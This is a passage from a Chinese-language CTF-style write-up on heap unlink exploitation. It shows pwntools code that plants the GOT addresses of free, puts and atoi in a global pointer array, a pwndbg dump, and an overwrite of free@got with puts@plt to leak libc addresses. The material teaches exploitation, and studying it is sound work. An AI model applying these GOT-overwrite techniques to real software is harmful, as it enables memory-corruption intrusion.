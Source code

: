 那么这样一来，我们可以通过修改s[2]的方式来对s[]数组进行部署函数的got地址，再次修改s[]数组的时候就会修改got中的函数地址，这和前面的几篇文章的套路差不多。

首先看第一步，向s[]数组中部署函数got地址：

```python
log.info("Overwriting global pointers...")
payload = 'a' * 8 + p64(free_got) + p64(puts_got) + p64(atoi_got)
edit(2, len(payload), payload)
p.recvuntil("OK")
log.success("Complete!")
time.sleep(1)
```

根据上面的payload修改s[2]：主界面–> 2–> 2–> payload：

```python
#摘除第一步完成，first_chunk
pwndbg> x/16gx 0x602138
0x602138:	0x6161616161616161	0x0000000000602018                 #free_addr(s[0])
0x602148:	0x0000000000e05420	0x0000000000602140 #puts_addr(s[1]) atoi_addr(s[2])
            #fd                 #bk
0x602158:	0x0000000000e05980	0x0000000000000000
0x602168:	0x0000000000000000	0x0000000000000000
0x602178:	0x0000000000000000	0x0000000000000000
0x602188:	0x0000000000000000	0x0000000000000000
0x602198:	0x0000000000000000	0x0000000000000000
0x6021a8:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

这样一来free()函数、puts()函数、atoi()函数就已经在s[]数组中部署好了。可以看到如果再次修改s[0]的话其实修改的是free()函数的真实地址，再次修改s[1]的话其实修改的是puts()函数的真实地址，再次修改s[2]的话其实修改的是atoi()函数的真实地址。

那么接下来，如果将s[0]，即free()函数got中的真实地址修改成puts_plt的话，释放调用free()函数就相当于调用puts()函数了。那么如果释放的是s[1]的话就可以泄露出puts()函数的真实地址了：

```python
log.info("Finding address in program...")
free_got = elf.got["free"]
puts_got = elf.got["puts"]
atoi_got = elf.got["atoi"]
puts_plt = elf.plt["puts"]
time.sleep(1)
log.success("free@got : 0x%x" % free_got)
log.success("puts@got : 0x%x" % puts_got)
log.success("atoi@got : 0x%x" % atoi_got)
log.success("puts@plt : 0x%x" % puts_plt)
time.sleep(1)
log.info("Changing free@got --> puts@plt...")
payload2 = p64(puts_plt)
edit(0, len(payload2), payload2)
time.sleep(1)
p.recvuntil("OK")
```

再次根据上面的payload手动修改修改s[0]：主界面–> 2–> 0–> payload
